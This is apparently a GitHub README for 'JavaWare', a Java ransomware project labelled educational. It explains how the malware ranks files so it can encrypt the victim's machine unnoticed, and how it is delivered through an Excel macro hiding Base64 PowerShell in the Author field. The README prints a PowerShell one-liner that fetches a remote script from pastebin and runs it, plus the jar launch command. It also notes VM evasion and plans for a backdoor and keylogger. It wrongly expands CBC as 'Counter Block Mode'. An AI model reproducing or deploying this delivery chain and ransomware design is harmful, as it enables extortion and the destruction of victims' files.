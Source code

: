 # JavaWare
### A Ransomware Built in Java

#### :pushpin: Disclaimer
> I built this purely for **educational purposes**. I take no responsibility and/or liability for how you choose to use any of the code available here. If executing the ransomware, please do not do so on your own machine as it will encrypt your files. Although I did include a function to decrypt, I am in no way responsible. 

JavaWare is a ransomware which will observe your system, learn which files you use, and then encrypts your machine. Once all files have been encrypted it will launch the payload screen. 

![alt text](https://raw.githubusercontent.com/kyralmozley/JavaWare/V1.0/Screenshots/Pay%20Load.png "Launch Screen")

### :crystal_ball: How does it learn which files I use? 
Maths. 

It uses a metric called *freceny*[1] (frequency + recency) to give each file a score. Using the idea of exponential decay, it ensures that most recently used files are scored higher, and as it observes your system over the course of a week, the more a file is accessed in this time, the higher the score. It then encrypts in such a way so that files that you are not likely to be using (i.e. low scored) first, this ensures that it can go as long as possible without being noticed, allowing it to encrypt the entire filesystem. 

<img src="http://latex.codecogs.com/gif.latex?\gamma=\sum_{i=1}^n+\beta" border="0"/>
<img src="http://latex.codecogs.com/gif.latex?\beta=p\cdot {e^{-a\lambda}}" border="0"/>

Where <img src="http://latex.codecogs.com/gif.latex?p" border="0"/> is a recency weight, <img src="http://latex.codecogs.com/gif.latex?a" border="0"/> is a frequency ranking (the time since last modification in hours), and 
<img src="http://latex.codecogs.com/gif.latex?\lambda" border="0"/> is a constant


|Recency Bucket | Score |
|---------------|-------|
| Today         | 1.0   |
| Last 5 Days   | 0.9   |
| Last 10 Days  | 0.7   |
| Last 30 Days  | 0.4   |
| Last 90 Days  | 0.1   |
| > 90 Days     | 0.0   |

<img src="http://latex.codecogs.com/gif.latex?\lambda=\frac{\ln 2}{30}" border="0"/>

### :lock: How does it encrypt? 
AES 128 bit Encryption in CBC Mode (Counter Block Mode ) PKCS5 Padding <br/>
AES is a symmetric encryption algorithm which works on blocks of a fixed size (16 bytes for AES128). *Padding* (PKCS5) is used if the block is less than 16 bytes long. We split the stream into 16 byte blocks, which is encrypted using AES and the result is XORed with the next block in the stream before it is encrypted. For the first block, it XORs it with an *initialization vector*, a random 16 byte value. 

### :page_facing_up: What does it encrypt? 
*FileTypes.java* defines what type of files to encrypt, it includes common document types and so will avoid program files to ensure your system is still functional. Similarly, *AvoidedDir.java* includes directories to avoid in traversal, such as *Windows* and *Program Files*. 

### :computer: How does it launch? 
The Microsoft Excel file, *August Report.xlsm* contains a Macro which is run on Workbook Open. Encoded Base64 PowerShell code is hidden within this file under the 'Author' field[2]. So the macro calls a function which gets the author, decodes it, and then runs the shell. The PowerShell script is: 
```powershell
Powershell Invoke-Expression -Command  $([string]([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((Invoke-WebRequest -Uri https://pastebin.com/raw/1538VQvN).content))))
```
This piece of code downloads another Base64 encoded powershell script, that checks whether or not the system is running in a virtual machine. If it is, it stops. This is a classic trick used by sophisticated malware such that analyst cannot then observe and reverse engineer the malware. 

Once it has established it is not in a VM, it then downloads code to check whether Java is currently installed in the system, if not, it downloads the latest version silently in the background. 

Lastly, it downloads and launches the jar. 

```powershell
$JAVA_VERSION = Get-ChildItem -Path "C:\Program Files\Java" | Select-String -Pattern 'jdk-'
$java = "C:\Program Files\Java\" + $JAVA_VERSION + "\bin\java.exe"
Start-Process -FilePath $java -ArgumentList '--module-path "C:\temp\javafx-sdk-11.0.2\lib" --add-modules=javafx.controls -jar temp\JavaWare.jar' -NoNewWindow
```

### :shipit: Future Tasks 
- [ ] Add a persistence method 
- [ ] Include 'fun' features such as a backdoor, keylogger etc.






### :notebook_with_decorative_cover: References: 
[\[1\]: Frecency Algortihm](https://developer.mozilla.org/en-US/docs/Mozilla/Tech/Places/Frecency_algorithm) <br/>
Gave me the idea to put my powershell code in the auhtor field, and other useful powershell commands.
[\[2\]: The Increased Use of PowerShell in Attacks - Symantec](https://www.symantec.com/content/dam/symantec/docs/security-center/white-papers/increased-use-of-powershell-in-attacks-16-en.pdf) <br/>
Gave me the idea to put my powershell code in the auhtor field, and other useful powershell commands.

